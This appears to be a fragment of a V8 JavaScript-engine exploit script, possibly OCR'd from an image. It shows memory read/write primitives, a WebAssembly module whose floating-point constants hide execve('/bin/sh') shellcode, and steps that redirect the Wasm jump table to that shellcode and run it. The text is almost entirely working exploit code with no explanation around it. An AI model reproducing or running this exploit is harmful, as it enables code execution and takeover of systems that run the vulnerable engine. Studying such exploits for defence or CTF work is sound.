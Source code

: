 ```js
    c_aaw_arr[0] = itof((temp << 32n) | val)
}

function caged_arb_write64(addr, val) {
    let elements = addr - 8n | 1n;
    oob_write32(c_aaw_arr_elements_offset, elements)
    c_aaw_arr[0] = itof(val)
}

/*
(module
  (func (export "main") (result f64)
    f64.const 1.617548436999262e-270
    f64.const 1.6181477269733566e-270
    f64.const 1.6305238557700824e-270
    f64.const 1.6477681441619941e-270
    f64.const 1.6456891197542608e-270
    f64.const 1.6304734321072042e-270
    f64.const 1.6305242777505848e-270
    drop
    drop
    drop
    drop
    drop
    drop
  )
  (func (export "pwn"))
)
*/

var code = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 8, 2, 96, 0, 1, 124, 96, 0, 0, 3, 3, 2, 0, 1, 7, 14, 2, 4, 109, 97, 105, 110, 0, 0, 3, 112, 119, 110, 0, 1, 10, 76, 2, 71, 0, 68, 104, 110, 47, 115, 104, 88, 235, 7, 68, 104, 47, 98, 105, 0, 91, 235, 7, 68, 72, 193, 224, 24, 144, 144, 235, 7, 68, 72, 1, 216, 72, 49, 219, 235, 7, 68, 80, 72, 137, 231, 49, 210, 235, 7, 68, 49, 246, 106, 59, 88, 144, 235, 7, 68, 15, 5, 144, 144, 144, 144, 235, 7, 26, 26, 26, 26, 26, 26, 11, 2, 0, 11]);
var module = new WebAssembly.Module(code);
var instance = new WebAssembly.Instance(module, {});
var wmain = instance.exports.main;
for (let j = 0x0; j < 10000; j++) {
    wmain()
}

instance_addr = addrof(instance)
jump_table_start = instance_addr + 0x48n
rwx_addr = caged_arb_read64(jump_table_start)
sc_addr = rwx_addr + 0x81an - 0x5n
print("[+] Shellcode @", hex(sc_addr+0x5n))

print("[+] Overwriting WasmInstanceObject jump_table_start to point to our shellcode")
caged_arb_write32(jump_table_start, sc_addr & BigInt(2**32-1))

 // to trigger jmp to address pointed by jump_table_start, we need another new function
var pwn = instance.exports.pwn;
print("[+] Executing shellcode")
pwn();
```
